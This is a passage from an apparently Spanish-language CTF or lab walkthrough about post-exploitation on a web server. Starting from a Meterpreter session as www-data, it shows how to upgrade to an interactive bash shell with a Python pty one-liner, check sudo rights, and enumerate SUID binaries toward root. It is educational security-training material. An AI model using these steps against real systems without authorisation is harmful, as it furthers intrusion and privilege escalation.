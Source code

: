 ```bash
[+] Deleted uploaded file

meterpreter > getuid
Server username: www-data
```

El usuario `www-data` es el usuario por defecto que usan los servidores web (como Apache o Nginx) para ejecutar los procesos. Está diseñado para tener muy pocos privilegios por seguridad. El objetivo ahora es encontrar una vulnerabilidad o una mala configuración en el sistema para "saltar" de `www-data` a un usuario con más privilegios, idealmente `root`.

Antes de nada, debemos de pasar de una shell de Meterpreter a una shell interactiva completa (TTY), es mucho mejor para trabajar.

1.  Dentro de Meterpreter, obtén una shell básica:

    ```sh
    shell
    ```
2.  Una vez dentro de la shell del sistema (`/bin/sh`), mejórala a una shell `bash` interactiva usando Python (casi siempre está instalado):

    ```sh
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```

    Cuando `python3` no funciona, podemos probar tambien con `python`.

Vamos a buscar permisos elevados. Iniciemos con este comando:

```sh
sudo -l
```

Sin embargo no aparece ninguna información relevate y solo nos pide contraseña.

Entonces, busca archivos que se ejecuten con los permisos del propietario (en este caso, `root`).

```sh
find / -perm -u=s -type f 2>/dev/null

# Respuesta:

/snap/snapd/19457/usr/lib/snapd/snap-confine
/snap/core20/1950/usr/bin/chfn
/snap/core20/1950/usr/bin/chsh
/snap/core20/1950/usr/bin/gpasswd
/snap/core20/1950/usr/bin/mount
/snap/core20/1950/usr/bin/newgrp
/snap/core20/1950/usr/bin/passwd
/snap/core20/1950/usr/bin/su
/snap/core20/1950/usr/bin/sudo
/snap/core20/1950/usr/bin/umount
/snap/core20/1950/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1950/usr/lib/openssh/ssh-keysign
/snap/core20/1974/usr/bin/chfn
/snap/core20/1974/usr/bin/chsh
/snap/core20/1974/usr/bin/gpasswd
/snap/core20/1974/usr/bin/mount
/snap/core20/1974/usr/bin/newgrp
/snap/core20/1974/usr/bin/passwd
/snap/core20/1974/usr/bin/su
/snap/core20/1974/usr/bin/sudo
/snap/core20/1974/usr/bin/umount
/snap/core20/1974/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1974/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
```